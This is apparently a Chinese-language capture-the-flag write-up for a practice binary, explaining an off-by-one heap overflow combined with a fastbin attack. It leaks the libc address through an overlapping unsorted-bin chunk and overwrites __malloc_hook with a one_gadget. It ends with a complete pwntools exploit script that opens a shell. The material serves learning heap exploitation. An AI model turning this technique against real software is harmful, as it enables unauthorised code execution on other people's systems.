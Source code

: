 # 标题

> practice-offbyone

## **原理**
offbyone+fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb

## **步骤**

看一下代码：

![](./pic/1.png)

看到edit中有一个 strlen函数到 `\0` 结束，但是read函数 不会在字符串的结尾加上 `\0`。我们可以进行 offbyone。

- 首先，我们先malloc5个堆块，然后释放掉 堆块1。

```
add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

delete(1)
```

堆块1会被放入到 unsortedbin中，在这道题中 我们无法打印被delete掉堆块的内容。所以我们接下来进行offbyone的利用。

注：为什么把堆块malloc一个这样的大小，是因为这样生成的堆块会复用prev_size。因为 64位的系统是 16字节对齐，表示 真实分配的堆块大小必须是16字节的倍数，所以当你申请0x100-8 这个大小的堆块时，如果 实际分配 0x100-8+8*2（加上prevsize+size） 大小的话，就不是16字节对齐了，所以采用复用prevsize，的方式，这样就能字节对齐了。同时也只有这种情况，就能在堆上利用offbyone了。

![](./pic/3.png)

- 接下来利用offbyone的思路是这样的，如下图所示：

![](./pic/4.png)

通过修改 被free掉的堆块的size部分，使之变大。面积可以覆盖到下一个没有被free掉的堆块

```
edit(0,'a'*0x28+'\x71') #将这个块的size 改成0x171
edit(2,'a'*0x60+p64(0x170)+'\x70') 

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)
```
我们free掉 堆块1之后，改变了堆块1的大小，这样我们再malloc一个和先前堆块1一样的大小的堆块时，就会在unsorted bin中选一个堆块，切掉需要的大小，再将余下的部分放回 unsortedbin中。看下图：

![](./pic/5.png)

由上图可见，我们并没有将堆块2 free掉，但是经过刚才的处理，他出现在了unsorted bin中。这样我们再show(2)，就能得到 main_arena+88的地址，进而得到libc的地址。

- 接下来我们要进行fastbin attack 

```
add(0x60,'a'*0x60)# 5 == 2

delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,+'a'*0x60)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)
```

这里有一个问题就是为什么，要delete两次来触发 one_gadget。是因为所有的one_gadget都不能用，所以我们是通过malloc_printerr的方式触发，这样成功的可能性更大。

完整的exp：

```
from pwn import *

def add(size,note):
	p.sendlineafter(">> ","1")
	p.sendlineafter("length: ",str(size))
	p.sendafter("note:",note)

def edit(index,note):
	p.sendlineafter(">> ","2")
	p.sendlineafter("index: ",str(index))
	p.sendafter("note:",note)

def delete(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("index: ",str(index))

def show(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("index: ",str(index))




libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=process('./offbyone')

add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

#gdb.attach(p)
#raw_input()
delete(1)
edit(0,'a'*0x28+'\x71') #
edit(2,'a'*0x60+p64(0x170)+'\x70')#标志 堆块2 是一个空闲的值

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)

libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
print hex(libc_base)

system=libc_base+libc.symbols['system']
print "system",hex(system)


malloc_hook=libc_base+libc.symbols['__malloc_hook']


one_gadget=libc_base+0xf02a4

add(0x60,'a'*0x60)#5 == 2

# fastbin attack
delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,'/bin/sh\x00'+'a'*0x58)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)

p.interactive()

```
## **参考阅读**

